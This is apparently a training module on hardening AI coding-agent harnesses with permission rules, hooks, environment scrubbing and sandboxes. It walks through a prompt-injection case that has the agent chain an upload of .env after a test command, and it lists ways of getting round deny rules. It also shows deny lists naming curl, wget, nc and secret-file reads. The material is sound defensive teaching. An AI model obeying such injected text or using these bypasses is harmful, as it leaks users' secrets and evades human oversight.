

# Module 2: Configuring Hard Controls

**Prerequisites:** [Module 1](../01-build-a-harness/README.md), and the [soft vs. hard controls](../../ui-walkthrough/README.md#soft-controls-vs-hard-controls) section of the walkthrough

The walkthrough argued that instructions files and polite requests aren't enough for anything that matters. In this module you build the controls that are: permission rules, hooks, a scrubbed environment, and a sandbox. Then you attack them, because knowing where each control stops working is as important as knowing how to turn it on.

## Learning objectives

By the end of this module, you can:

1. Write allow, ask, and deny rules, and predict which one wins.
2. Explain why compound commands must be split before rules are matched.
3. Write a hook that blocks an action based on its content.
4. Say which threats rules, hooks, environment scrubbing, and sandboxing each do and do not stop.

---

## 1. The layers

Every tool call in the reference harness passes through the same checks, in order. Production harnesses use the same idea.



| Layer | Decides based on | Strength | Weakness |
|---|---|---|---|
| **Hooks** | Anything in the tool input, using your own code | Can inspect content: "does this edit remove an assertion?" | Only as good as the code you write; runs with your full access |
| **Deny rules** | A pattern on one field (a path, or a command's text) | Absolute: nothing overrides a match | Matches text, not behavior. `bash -c 'curl …'` is not `curl …` |
| **Ask rules** | Same | Forces a human decision even when an allow rule also matches | Only as good as the human reading the prompt |
| **Allow rules** | Same | Removes friction for safe, repetitive actions | Allowing a command allows **everything that command runs** |
| **Scrubbed environment** | Which variables a subprocess inherits | Keeps tokens in your shell out of the agent's reach | Doesn't protect secrets stored in files |
| **Sandbox** | The operating system | Holds even when every other layer is fooled | Usually covers shell commands only, not the file tools or other processes |

**Precedence in one line:** a matching deny always wins; a matching ask beats an allow; an allow approves a compound command only if **every** part matches.

---

## 2. Lab A: Why compound commands must be split

Use a fresh copy of the practice app for each lab: `../../practice-app/setup.sh ~/lab2`. All commands below run from the `mini-harness` folder.

**Step 1. The default policy.** `policies/default.json` allows `run_command(python3 run_tests.py*)`. Run the injection scenario from walkthrough screen 3:

```bash
python3 harness.py --workdir ~/lab2 --scenario scenarios/injection.json \
    --prompt "Run the tests and tell me what fails."
```

The agent reads `vendor/fastlog/README.md`, which contains a hidden instruction, and asks to run `python3 run_tests.py -q && curl ... -d @.env`. You get a prompt, because the harness split the command and `curl ...` matched no allow rule. Deny it with a reason.

**Step 2. Naive matching.** `policies/naive-matching.json` has identical rules but matches against the whole command string. Fix the bug first so the tests pass, then run the same scenario:

```bash
echo y | python3 harness.py --workdir ~/lab2 --scenario scenarios/fix.json --prompt "Fix the login bug."
python3 harness.py --workdir ~/lab2 --scenario scenarios/injection.json \
    --policy policies/naive-matching.json --prompt "Run the tests."
```

No prompt appears. The whole string starts with `python3 run_tests.py`, so the wildcard matched it, and the `curl` ran. It fails only because there's no route out of the air gap. On a connected network, `.env` would have been uploaded. (Before the fix, the tests fail, and `&&` skips the `curl`. Attacks often depend on details like this; don't count on them.)

**Discuss:** What else can be chained onto an allowed command? (`;`, `||`, `|`, `&`, newlines, and substitution: `$(…)` and backticks.) The reference harness refuses to auto-approve any command containing substitution. Find that in `split_command()`.

---

## 3. Lab B: Write your own policy

Copy the default policy and harden it:

```bash
cp policies/default.json policies/mine.json
```

Add rules to `policies/mine.json` until all three scenarios below are stopped **without a prompt**:

| Scenario | Command | What should stop it |
|---|---|---|
| Injection | `--scenario scenarios/injection.json` | The upload command |
| Weakened test | `--scenario scenarios/weaken.json` | The edit to `tests/test_login.py` |
| Secrets | Ask yourself: what stops `read_file(.env)`? | A deny rule |

Test with `--policy policies/mine.json`. Compare with `policies/strict.json` when you're done.

**Then break your own policy.** For each deny rule you wrote, find a command that does the same thing but doesn't match. Examples to try in an interactive session with a real model, or just reason through:

- `curl` denied → `python3 -c "import urllib.request; ..."` or `bash -c 'curl …'`
- `read_file(.env)` denied → `run_command(cat .env)`, or `search` for `TOKEN` across all files
- `edit_file(tests/*)` denied → `run_command(sed -i … tests/test_login.py)`

> **Note:** The reference harness applies `read_file` deny rules to `search` as well. Look at `tool_search()` for the check. Without it, a search for `API_TOKEN` would leak the contents of a file the policy says can't be read. Check that your production harness does the same.

**The lesson:** deny rules match *text*. They block the obvious form of an action, and they make the prompt appear for the less obvious ones. They are not a boundary around the underlying capability.

**Allowing a command allows what it runs.** `run_command(python3 run_tests.py*)` is allowed, and `run_tests.py` is a file in the repository. If the agent is allowed to edit that file, the "safe" command can run anything. The same applies to `pytest` (which runs `conftest.py`), `make`, `npm test`, and any build script.

---

## 4. Lab C: Hooks inspect content

Rules can't say "allow edits to tests, but not edits that weaken them." Hooks can. Read the two hooks used by `strict.json`:

- `hooks/protect_secrets.py` blocks any tool call whose input mentions a `.env` file, in any field. That catches `cat .env`, `-d @.env`, and `grep TOKEN .env`, which a `curl` deny rule would not.
- `hooks/no_test_weakening.py` blocks edits to test files that remove assertions or add skips, while still allowing new tests.

Run the weakened-test scenario under `strict.json`:

```bash
python3 harness.py --workdir ~/lab2 --scenario scenarios/weaken.json \
    --policy policies/strict.json --prompt "Make the tests pass."
```

The hook blocks the edit and its message goes back to the model as the reason. Notice that the mock still ends with "Done. All tests pass now." The tests do **not** pass. A real model would usually react to the denial, but the claim and the evidence can still disagree (Module 4).

**Write a hook.** A hook receives JSON on stdin (`{"event", "tool", "input", "workdir"}`) and blocks by exiting with code 2 and writing a reason to stderr. Write one that blocks `edit_file` on anything outside `src/` and `tests/`, add it to your policy under `hooks.pre_tool`, and test it.

> **Hooks run as you, outside every other control.** A hook is code from whoever wrote the policy. A hook in a cloned repository's settings is code someone else chose to run on your machine. Review hooks the way you'd review any script before running it.

---

## 5. Lab D: The execution environment

**Environment variables.** Shell commands inherit your environment, including tokens you exported for other tools.

```bash
echo y | FAKE_CLOUD_TOKEN=abc123-fake python3 harness.py --workdir ~/lab2 \
    --scenario scenarios/env-leak.json --prompt "Check the setup."
```

The token appears in the command output, which is now part of the conversation and is re-sent on every request. Set `"scrub_env": true` in your policy and run it again. Only `PATH`, `HOME`, `LANG`, and `TERM` are passed through.

**Sandboxing.** On Linux, `unshare` can run a command in a new network namespace with no interfaces except loopback. Add this to your policy:

```json
"sandbox_prefix": ["unshare", "--user", "--map-root-user", "--net"]
```

Repeat the naive-matching attack from Lab A. The `curl` now runs, and fails immediately: there is no network at all inside the namespace. This is the only layer in this module that would have stopped the attack **even with naive rules and a careless approval**.

If `unshare` reports `Operation not permitted`, your system disallows unprivileged user namespaces. That's a host security setting; production sandboxes rely on the same kernel features (see below), so it's worth checking with your administrators.

> `unshare --net` is a teaching device: it blocks the network, nothing else. A real sandbox also restricts which files a command can read and write.

---

## 6. In a production harness

Claude Code, which many teams use as their terminal harness, implements each of these layers. The concepts map directly; check your version's documentation for exact syntax.

| Concept | mini-harness | Claude Code |
|---|---|---|
| Rule syntax | `run_command(curl *)` | `Bash(curl *)`, `Read(./.env)`, `Edit(./tests/**)` |
| Where rules live | `policies/*.json` | `permissions.allow` / `ask` / `deny` in `settings.json` (user, project, local, and managed scopes) |
| Precedence | deny, ask, allow | Same. Managed (organization) settings can't be overridden by user or project settings |
| Compound commands | Split on `&&`, `\|\|`, `;`, `\|`, `&`, newlines | Same operators; each subcommand must match an allow rule; deny and ask rules match any subcommand, including inside subshells and substitutions |
| Hooks | `hooks.pre_tool`, exit 2 blocks | `PreToolUse` hooks with a tool-name `matcher`; exit 2 blocks and sends stderr to the model, or return a JSON `permissionDecision` |
| Hook vs. rules | Hook runs first; deny rules still apply | A blocking hook stops the call before rules; a hook's "allow" can't override a deny rule |
| Environment | `scrub_env` | Sandbox credential settings and an environment-scrubbing option for subprocesses |
| Sandbox | `sandbox_prefix` | `sandbox.enabled`: OS-level isolation (bubblewrap on Linux, Seatbelt on macOS) with filesystem limits and a network allowlist |
| Disabling safety | (none) | A "bypass permissions" mode exists for isolated containers; organizations can disable it with `permissions.disableBypassPermissionsMode` in managed settings |

An equivalent of `strict.json` as a Claude Code project settings file (`.claude/settings.json`):

```json
{
  "permissions": {
    "allow": ["Bash(python3 run_tests.py *)", "Bash(pytest *)", "Bash(git diff *)", "Bash(git status *)"],
    "ask":   ["Bash(git push *)", "Bash(rm *)"],
    "deny":  ["Read(./.env)", "Read(./.env.*)", "Edit(./tests/**)",
              "Bash(curl *)", "Bash(wget *)", "Bash(nc *)", "Bash(ssh *)", "Bash(scp *)"]
  },
  "hooks": {
    "PreToolUse": [
      { "matcher": "Edit|Write",
        "hooks": [{ "type": "command", "command": "\"$CLAUDE_PROJECT_DIR\"/.claude/hooks/no_test_weakening.py" }] }
    ]
  },
  "sandbox": { "enabled": true }
}
```

Note that Claude Code's hook input uses different field names from mini-harness (for example, `tool_name` and `tool_input.file_path`), so a hook script must be adapted to the harness it runs in.

**Two facts from the Claude Code documentation worth remembering:**

1. **The sandbox wraps shell commands only.** The built-in file tools, hooks, and MCP servers run outside it, under permission rules instead. A sandbox read restriction does not stop the `Read` tool; a `Read` deny rule does. You need both.
2. **Bash rules match the command text Claude writes,** not the program. The documentation states plainly that a deny rule isn't a security boundary around the program. Use the sandbox for that.

---

## Check your understanding

**1. Your policy allows `run_command(pytest*)`. The agent edits `tests/conftest.py`, then runs `pytest`. What ran?**

> **Answer:** Whatever the agent wrote into `conftest.py`, because pytest executes it. Allowing a command allows everything it runs. Either require approval for edits to files that allowed commands execute, or sandbox the command.

**2. A deny rule blocks `curl *`. Name two ways the agent could still make an outbound request, and what actually stops them.**

> **Answer:** `bash -c 'curl …'`, `python3 -c "import urllib.request…"`, `wget`, or a script file. Without a matching rule these trigger a prompt (which depends on you), and only a network-isolated sandbox stops them outright.

**3. A hook returns "allow" for a command that matches a deny rule. What happens?**

> **Answer:** The deny rule wins. In Claude Code, a hook's "allow" can't override a deny or ask rule; hooks can add restrictions but not remove them. (In mini-harness, hooks can only block, so the question can't arise.)

**4. You enabled the sandbox. Is `.env` now safe from the agent?**

> **Answer:** Not necessarily. The sandbox restricts shell commands; the file-reading tool is governed by permission rules. You need a `Read` deny rule (or equivalent) as well, plus an equivalent rule for any search tool.

**5. Which single layer would have stopped Lab A's attack even with naive rules and a careless "yes"?**

> **Answer:** The network-isolated sandbox. Every other layer depends on correct patterns or correct human judgment.

---

### Key takeaway

> **Rules reduce friction, hooks add judgment, and only the sandbox is a boundary. Use all three, and know which one you're relying on.**
